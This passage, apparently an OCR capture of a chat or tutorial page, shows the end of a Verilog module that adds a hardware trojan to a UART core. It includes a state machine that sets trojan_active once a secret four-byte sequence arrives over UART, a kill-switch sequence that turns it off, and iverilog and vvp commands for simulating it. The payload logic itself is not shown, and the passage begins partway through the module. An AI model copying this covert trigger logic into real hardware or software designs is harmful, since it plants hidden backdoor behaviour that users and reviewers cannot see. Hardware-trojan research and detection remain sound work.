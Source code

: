 case (trigger_state)
2'b00: if (rx_uart_data == T_BYTE_1) trigger_state <= 2'b01;
2'b01: if (rx_uart_data == T_BYTE_2) trigger_state <= 2'b10;
else trigger_state <= 2'b00; // Reset if sequence broken
2'b10: if (rx_uart_data == T_BYTE_3) trigger_state <= 2'b11;
else trigger_state <= 2'b00; // Reset if sequence broken
2'b11: if (rx_uart_data == T_BYTE_4)
begin
trojan_active <= 1'b1; // ACTIVATE PAYLOAD
trigger_state <= 2'b00;
end
else trigger_state <= 2'b00; // Reset if sequence broken
default: trigger_state <= 2'b00;
endcase
end
else // trojan_active is true
begin
// --- KILL-SWITCH DETECTION LOGIC (Simplified) ---
case (kill_state)
2'b00: if (rx_uart_data == K_BYTE) kill_state <= 2'b01;
2'b01: if (rx_uart_data == K_BYTE) kill_state <= 2'b10;
else kill_state <= 2'b00;
2'b10: if (rx_uart_data == K_BYTE) kill_state <= 2'b11;
else kill_state <= 2'b00;
2'b11: if (rx_uart_data == K_BYTE)
begin
trojan_active <= 1'b0; // DEACTIVATE PAYLOAD
kill_state <= 2'b00;
end
else kill_state <= 2'b00;
default: kill_state <= 2'b00;
endcase
end
end
end
endmodule






-----



## Next Steps


Now, simply re-run the same compile and simulation commands you used before.
   1. Compile:
Bash
iverilog -g2012 -o trojan_test wbuart.v rxuart.v txuart.v ufifo.v wbuart_tb.v

   2. Run:
Bash
vvp trojan_test
